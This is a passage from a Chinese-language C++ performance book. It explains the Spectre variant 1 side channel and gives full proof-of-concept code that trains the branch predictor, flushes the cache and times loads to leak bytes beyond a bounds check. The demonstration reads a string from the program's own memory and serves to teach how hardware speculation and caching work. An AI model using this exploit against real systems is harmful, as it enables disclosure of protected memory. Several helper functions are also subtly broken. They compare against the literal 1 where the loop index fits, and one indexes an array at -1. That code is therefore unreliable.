
前兩章中,我們瞭解了在現代計算機上從初始數據到最終結果的複雜性。有時,機器會按照代碼進行操作。從內存中讀取數據,按寫好的方式進行計算,然後將結果保存到內存中。然而,數據會經歷一些我們可能不知道的中間狀態。從內存中讀取的過程時,CPU可能會執行別的指令,可能CPU認為讀取過程需要這些別的指令等。我們試圖通過直接的性能測試,來確認所有這些過程確實存在。這樣的話,測量總是間接的,對代碼的硬件優化和轉換是為了交付正確結果而設計,畢竟只是進行了更快的計算。

本節中,將展示更多本應隱藏的硬件操作的可觀察證據。這是一個重大發現:在2018年發現時引發了的網絡安全恐慌,在硬件和軟件供應商提供了大量補丁後才得以平息。這裡,要說的就是Spectre和Meltdown安全漏洞(\url{https://meltdownattack.com/})。

\subsubsubsection{4.6.1\hspace{0.2cm}什麼是Spectre?}

本節中,將詳細演示Spectre攻擊的早期版本,即Spectre版本1。雖然這不是一本關於網絡安全的書,不過Spectre攻擊通過仔細測試程序的性能來進行,依賴於本書中研究過的兩種性能增強硬件技術:投機執行和內存緩存。在針對軟件性能的攻擊中,也可以學到一些東西。

Spectre背後的理念是,如果CPU遇到條件跳轉指令,會嘗試預測結果,並在假設預測正確的情況下執行指令。這就是所謂的投機執行,沒有它,就不會有代碼中的流水。投機執行中比較棘手的部分是錯誤處理,錯誤經常發生在推測執行的代碼中,但在預測正確之前,這些錯誤必須不可見。最明顯的例子是空指針解除引用,若處理器預測指針不為空,並執行相應的分支,那麼每次分支錯誤預測時都會發生致命錯誤,而指針實際上為空。正確編寫代碼以避免取消空指針的引用,其也必須正確執行,但潛在的錯誤不能暴露出來。另一個常見的推測錯誤是數組邊界讀寫:

\begin{lstlisting}[style=styleCXX]
int a[N];
…
if (i < N) a[i] = …
\end{lstlisting}

索引\texttt{i}通常小於數組的大小\texttt{N},那麼這將成為預測條件,從\texttt{a[i]}讀取的數據將預測地執行。如果預測錯了怎麼辦?丟棄結果,所以沒有造成影響,對吧?沒那麼簡單。內存位置\texttt{a[i]}不在原始數組中,甚至不必是數組後面的元素。索引可以是任何值,因此索引的內存位置可以屬於不同的程序,甚至屬於操作系統,這樣就沒有讀取該內存的權限。操作系統確實會執行訪問控制,所以通常從另一個程序讀取內存會觸發錯誤。這一次,我們不確定錯誤是否真的存在,執行仍然處於預測階段,分支預測可能出錯。在知道這個預測是否正確之前,錯誤仍然是預測性錯誤。

然而,潛在的非法讀操作有一個奇妙的副作用,\texttt{a[i]}已經加載到緩存中。下次從相同的位置讀取時,讀取速度會更快。無論是實際讀取,還是投機的。投機執行期間的內存操作與真實執行時的操作一樣。從主存讀取需要更長的時間,而從緩存讀取更快。可以觀察和測試內存負載的速度。雖然是可衡量的副作用,但不是預期結果。實際上,該程序通過不同於預期輸出的方式的額外機制進行輸出,這就是所謂的邊信道。

Spectre攻擊利用了這個邊信道:

%\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/17.jpg}\\
圖4.17 - Spectre攻擊
\end{center}

使用在投機執行過程中獲得的\texttt{a[i]}來索引另一個數組\texttt{t}。之後,數組中的一個元素\texttt{t[a[i]}將加載到緩存中。數組\texttt{t}的其餘部分從未訪問,仍然在內存中。與\texttt{a[i]}不同,\texttt{a[i]}實際上不是數組\texttt{a}的元素,而是使用非法手段獲得的內存位置上的某個值,數組\texttt{t}完全在控制範圍內。當讀取\texttt{a[i]}和\texttt{t[a[i]}時,分支保持長時間的不可預測是攻擊成功的關鍵。否則,當CPU檢測到分支錯誤預測,並且實際上不需要這些內存訪問時,投機執行就會結束。執行投機執行之後,最終會檢測到錯誤預測,並且投機操作的所有後果都將回滾,包括潛在的內存訪問錯誤。所有的結果只有一個,即數組\texttt{t[a[i]]}的值仍然在緩存中。這並沒有什麼問題,訪問這個值是合法的,而且硬件總是在緩存中移動數據。這種方式永遠不會改變結果,也不會訪問任何不應該訪問的內存。

然而,這整個系列的事件有一個可觀察的結果:數組\texttt{t}中的一個元素的訪問速度要比其他元素快得多:

%\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/18.jpg}\\
圖4.18 - Spectre攻擊後內存和緩存的狀態
\end{center}

可以測試讀取數組\texttt{t}的每個元素所花費的時間,可以找到被\texttt{a[i]}索引的元素。其實,這就是我們不應該知道的祕密!

\subsubsubsection{4.6.2\hspace{0.2cm}Spectre的例子}

Spectre攻擊需要幾步,我們將逐一介紹。總的來說,對於本書來說,這會是一個相當大的編碼示例(這個特殊的實現是錢德勒·卡魯斯在2018年CPPCon上示例的變體)。

我們需要一個精確的計時器,可以使用C++高精度計時器:

\begin{lstlisting}[style=styleCXX]
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
	return duration_cast< nanoseconds>(
	high_resolution_clock::now().time_since_epoch()
	).count();
}
\end{lstlisting}

開銷和計時器的分辨率取決於實現。標準不要求任何特定的性能保證。對於x86 CPU,可以使用\textbf{時間戳計數器(TSC)},這是一種硬件計數器,用於計算從過去某個時間開始的週期數。使用循環計數作為計時器通常會導致測試中夾雜噪聲,但計時器本身更快,這在這裡很重要,因為我們將嘗試測量從內存加載單個值需要多長時間。GCC、Clang和許多其他編譯器都有內置函數來訪問這個計數器:

\begin{lstlisting}[style=styleCXX]
long get_time() {
	unsigned int i;
	return __rdtscp(&i); // GCC/Clang intrinsic function
}
\end{lstlisting}

現在有了計時器,下一步是計時數組。實際中,不像在圖中暗示的整數數組那麼簡單。整數在內存中太接近,將一個加載到緩存中會影響它訪問鄰近數據的時間。所以,需要將值分隔開:

\begin{lstlisting}[style=styleCXX]
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
\end{lstlisting}

這裡我們只使用\texttt{timing\_element}的第一個字節,使用1024字節也沒有什麼特殊說法,只要足夠大就行了,但這是必須通過測試確定的。如果距離太小,攻擊就會變得不可靠。時間數組中有256個元素,因為我們要讀取一個字節的祕密內存,所以數組\texttt{a[i]}是一個字符數組(即使實際的數據類型不是\texttt{char},仍然可以逐個字節地讀取)。嚴格地說,因為測試不取決於這個數組的內容,所以沒必要初始化時間數組。

現在可以來看一下核心代碼了。下面是一個簡化的實現,缺少了一些必要的內容,但這裡更關注如何解釋代碼。

需要讀取數組邊界外的數值:

\begin{lstlisting}[style=styleCXX]
size_t size = …;
const char* data = …;
size_t evil_index = …;
\end{lstlisting}

這裡\texttt{size}是數據的實際大小,\texttt{evil\_index}大於\texttt{size},是正確數據數組(之外)祕密值的索引。

接下來,我們將訓練分支預測器,需要它瞭解更有可能訪問數組的分支。為此,將生成一個指向數組的有效索引(稍後我們將瞭解如何實現),也就是\texttt{ok\_index}:

\begin{lstlisting}[style=styleCXX]
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++i_read) {
	const size_t i = (i_read & 0xf) ? ok_index : evil_index;
	if (i < size) {
		access_memory(timing_array + data[i]);
	}
}
\end{lstlisting}

然後,在位置\texttt{timing\_array + data[i]}讀取內存,其中\texttt{i}要麼是\texttt{ok\_index},要麼是\texttt{evil\_index},前者出現的頻率明顯要比後者高(在16次嘗試讀取中只讀取一次祕密數據,以保證分支預測器已經訓練的可以成功讀取正確的數據)。注意,實際的內存訪問有邊界檢查保護。我們從來沒有真正讀過不應該讀的內存,所以此代碼100\%正確。

理論上來說,訪問內存的函數就是讀取內存。實際中,因為編譯器會試圖消除冗餘或不必要的內存操作,所以必須與優化編譯器鬥智鬥勇。這裡有一種方法,使用了內聯彙編(因為位置\texttt{*p}標記為輸入,所以讀指令實際上由編譯器生成):

\begin{lstlisting}[style=styleCXX]
void access_memory(const void* p) {
	__asm__ __volatile__ ( "" : :
	"r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
\end{lstlisting}

我們運行了多次\textit{預測-錯誤預測}循環(示例中是100次)。現在期望\texttt{timing\_array}的一個元素在緩存中,所以需要測試訪問每個元素需要多長時間。這裡需要注意的是,按順序訪問整個數組將不起作用。預取將快速啟動,並將要訪問的元素移動到緩存中。大多數情況下這是有效的,但現在不需要。現在需要以隨機順序訪問數組中的元素,並將訪問每個元素所需的時間存儲在內存訪問延遲數組中:

\begin{lstlisting}[style=styleCXX]
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++i) {
	const size_t i_rand = (i*167 + 13) & 0xff; // Randomized
	const timing_element* const p = timing_array + i_rand;
	const long t0 = get_time();
	access_memory(p);
	latencies[i_rand] = get_time() - t0;
}
\end{lstlisting}

也許會奇怪,為什麼不簡單地進行快速訪問呢?兩個原因:首先,不確定“快”對特定的硬件來說意味著什麼,只知道要比“正常速度”快,所以也要測試“正常速度”。其次,任何測試都不是100\%可靠。有時計算會因另一個進程或操作系統中斷,所以整個操作序列的準確時間取決於CPU當時在做什麼等因素。這個進程很有可能會顯示祕密內存位置的值,但不能100\%的保證,所以必須多嘗試幾次,並取平均的結果。

這樣做時,會看到的代碼中有幾個風險。首先,假設時間數組的值不在緩存中。即使開始時它是正確的,在成功地瞄到了第一個祕密字節之後,就不正確了。每次攻擊下一個字節之前,都必須從清除緩存中計時數組:

\begin{lstlisting}[style=styleCXX]
for (size_t i = 0; i < num_val; ++i) {
	_mm_clflush(timing_array + i); // Un-cache the array
}
\end{lstlisting}

同樣,我們使用了GCC/Clang內置函數,大多數編譯器中都有類似的東西,但函數名可能不同。

其次,這種攻擊只能在投機執行持續足夠長的時間才奏效,在兩次內存訪問(數據和時間數組)發生之前,CPU才會找出應該使用的分支。實際中,代碼在預測上下文中沒有持續足夠的時間,因此必須使正確計算分支更加困難。做這件事的方法不止一種,這裡使分支條件依賴於從內存中的某些值,並將數組複製到另一個訪問速度較慢的變量中:

\begin{lstlisting}[style=styleCXX]
std::unique_ptr<size_t> data_size(new size_t(size));
\end{lstlisting}

必須確保這個值從緩存中清除,然後使用\texttt{*data\_size}中的數組長度進行讀取:

\begin{lstlisting}[style=styleCXX]
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {} // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
	access_memory(timing_array + data[i]);
}
\end{lstlisting}

代碼中還有個神奇的延遲,一些無用的計算將緩存刷新和數據大小的訪問分開(破壞了可能的指令重新排序,讓CPU更快地獲取數組大小)。\texttt{i < *data\_size}需要一些時間來計算,CPU需要在得到結果之前從內存中讀取值。分支根據大概率的結果進行預測,這是一個有效的索引,因此可以預測性地對數據進行訪問。

\subsubsubsection{4.6.3\hspace{0.2cm}Spectre出擊!}

最後一步是把它們放在一起,並多次運行,以積累統計可靠的測試值(因為計時器本身所花費的時間與測試的時間差不多,導致單個指令的計時測試非常嘈雜)。

下面的函數攻擊數據數組外的單個字節:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

對於計時數組中的每個元素,我們將計算一個分數,即該元素訪問速度最快的次數。還跟蹤速度第二快的元素,它應該是常規的、訪問較慢的數組元素之一。在多次迭代中,會得到我們預期的結果。但在實際中,在某些時候必須放棄。

當最佳和次最佳的分數之間差距夠大,就知道已經檢測到了計時數組中的快速元素,即由祕密字節的值索引的元素(儘管可以嘗試使用迄今為止最好的猜測,如果到了最大迭代次數,而沒有得到期望的結果,攻擊就失敗了)。

有兩個工具函數可用來計算延遲的平均分數,並找出兩個最佳分數。只要能給出正確的結果,就可以以任何方式實現它們。第一個函數計算平均延遲,並增加延時低於平均值的計時元素的分數(必須通過實驗調整,但不是很敏感)。注意,希望一個數組元素的訪問速度更快,所以可以在計算平均延遲時跳過(理想情況下,一個元素的延遲要比其他元素低得多,而其他元素的延遲都相同):

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

第二個函數只是在數組中找到兩個最好的分數:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

我們有一個函數,指定了數組之外返回單個字節的值,但不直接讀取這個字節。我們會用它來獲取一些祕密數據!為了演示,將分配一個非常大的數組,通過指定一個較小的值作為數組的大小,將大多數數組指定為禁止訪問的區域。實際上,這是唯一可以證明這種攻擊的方法。自從發現Spectre漏洞以來,大多數計算機都打過補丁。因此,除非您的機器是上古機器,多年都沒有更新,否則攻擊將無法對任何不允許訪問的內存進行攻擊。補丁不會阻止對任何允許訪問的數據使用Spectre,但必須檢查代碼,並證明它確實返回了值,而不是直接訪問內存。我們的\texttt{spectre\_attack}函數在指定大小的數據數組之外沒有讀取任何內存,因此可以創建一個比指定大兩倍的數組,並在上面半部分隱藏一條祕密消息:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

再次檢查一下給\texttt{spectre\_attack}函數的值,數組大小就是數組中字符串的長度。除了在投機執行上下文中,代碼不會訪問其他內存。為了保護所有內存訪問,需要對正確性進行檢查。然而,程序會逐個字節地顯示第二個字符串的內容,而這個字符串從來沒有讀取過。

總之,使用投機執行上下文來查看不允許訪問的內存。由於訪問該內存的分支條件是正確的,無效的訪問是一個潛在的錯誤,並且永遠不會發生。錯誤預測分支的結果會撤銷,但有一個例外,訪問的值仍然在緩存中,因此下一次訪問相同值的速度會更快。對內存訪問時間進行測試,就能知道那個值是多少!為什麼我們對性能感興趣,而不是黑客行為呢?要確認處理器和內存的行為確實如我們所描述,投機執行確實發生了,而且緩存確實工作,使得數據訪問的速度更快。



















